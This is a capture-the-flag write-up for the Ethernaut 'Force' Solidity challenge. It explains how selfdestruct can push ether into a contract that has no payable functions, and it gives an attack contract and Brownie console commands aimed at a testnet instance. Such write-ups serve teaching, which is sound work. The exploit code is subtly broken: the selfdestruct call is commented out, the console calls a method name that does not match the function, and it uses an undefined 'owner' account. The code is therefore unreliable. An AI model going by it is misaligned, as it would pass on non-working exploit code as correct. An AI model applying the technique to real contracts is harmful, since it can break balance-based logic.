 ## Exercise 7: Force

The vulnerable contract contains no code. The aim of the challenge is to force the contract to accept some ether. There are no payable functions in Force.sol that can accept ether through normal transfers. However, the EVM also has a `selfdestruct` opcode that takes an address as an argument. This address is the recipient for any ether held by a contract that is destroyed by calling `selfdestruct`. Therefore, by creating a contract, sending it some ether, then deliberately destroying it with the deployment address for `Force.sol` as the recipient, we can force the contract to accept ether.

### The vulnerable contract
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

### The Hack

```javascript

pragma solidity ^0.6.0;

contract ForceHack{

    function receive() public payable returns (uint){
        // receive some ether and return the contract balance as a uint
        return address(this).balance;
    }

    function selfDestruct() public{

        // set address to the deployment addr for Force.sol
        address payable contract_address = 0x83867758a9A4D667c78fCE37b63483151114436D;
        //selfdestruct(contract_address);
    }


}
```

### Execution
NB Force.sol already has a deployment address provided via ethernaut "get instance"

```bash

>>> brownie console --network rinkeby    #start brownie session
>>> hacker = accounts.load('main')    # load account
>>> contract = Force.at('0x83867758a9A4D667c78fCE37b63483151114436D') # load vulnerable contract
>>> hack = ForceHack.deploy({'from': hacker})   # load hack contract
>>> hack.receive({'from':owner, 'value': 100000})   # send ether to hack contract
>>> hack.selfdestruct()    # self destruct hack contract with vulnerable contract as recipient
>>> web3.eth.getBalance(contract.address)   # check balance of vulnerable contract - should be >0

```

### Links
[Solidity by Example: selfdestruct](https://solidity-by-example.org/hacks/self-destruct/)
[StackExchange: why are selfdestructs useful?](https://ethereum.stackexchange.com/questions/315/why-are-selfdestructs-used-in-contract-programming/347)
